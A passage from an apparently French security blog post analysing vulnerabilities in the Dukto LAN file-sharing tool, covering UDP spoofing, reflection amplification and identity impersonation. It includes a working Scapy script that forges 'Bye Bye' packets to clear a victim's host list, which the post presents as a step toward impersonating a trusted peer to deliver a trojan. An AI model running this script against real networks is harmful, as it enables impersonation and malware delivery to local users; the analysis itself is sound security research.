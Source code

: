Avec une armée de *Dukto* on pourrait donc lancer une attaque DDoS par reflection (spoofing) et amplification (un petit datagramme UDP génère une connexion TCP plus conséquente).  

*Dukto* n'est pas bête et ne fait la requête HTTP qu'au moment du premier _Hello_... sauf que si juste après on spoofe un message *Bye Bye* avec la même adresse IP alors *Dukto* retirera l'IP de sa liste et renverra à nouveau une requête HTTP au prochain *Hello*.  

Dans la pratique, imaginer disposer d'une armée de clients *Dukto* est dérisoire, qui plus est le déni de service ne peut pas être considéré comme distribué si tous les clients *Dukto* font partie du même réseau local :p  

Quoi qu'il en soit, *Dukto* utilisant un protocole de transfert de fichier, on peut se demander pourquoi les avatars ne sont pas bêtement transmis via TCP (par exemple avec un nom de fichier spécial comme c'est le cas pour les messages texte).  

L'utilisation d'UDP permet l'usurpation d'adresse IP et pour *Dukto* l'usurpation d'identité.  

On peut imaginer un scénario où l'attaquant écoute les messages *Hello* pour dresser la liste des utilisateurs présents sur le réseau (Alice et Bob) puis choisi une victime (Bob) pour lui envoyer un message *Bye Bye* semblant venir d'Alice.  

L'attaquant n'a plus qu'à envoyer un message *Hello* sous le pseudo Alice avec sa véritable adresse IP et profiter de la confiance que Bob a en Alice pour lui envoyer un cheval de troie.  

Ici en dehors d'intégrer la cryptographie à clé publique dans *Dukto* j'ai du mal à voir d'autres solutions où l'on conserve UDP...  

Voici un petit script utilisant *Scapy* qui va vider la liste des hôtes dans le client *Dukto* de la victime, ne laissant que notre adresse IP.  

Comme pour une attaque d'empoisonnement de cache ARP il faudrait flooder les différents protagonistes pour être réellement efficace.  

```python
from ipaddress import ip_network
from scapy.all import *
conf.verbose = 0

our_ip = "192.168.1.3"
target = "192.168.1.22"

for ip in ip_network(u'192.168.1.0/24').hosts():
    if str(ip) == our_ip:
        continue

    pkt=Ether()/IP(src=str(ip), dst=target)/UDP(sport=4644, dport=4644)/"\x03Bye Bye"
    sendp(pkt)
```

## Conclusion

*Dukto* est un outil très utile, mais souffre d'une vulnérabilité de traversée d'arborescence qui devrait être colmatée.  

Les autres vulnérabilités sont moins intéressantes et sont liées à un choix du développeur d'utiliser un protocole simple et pourtant efficace.

*Published August 19 2015 at 19:03*

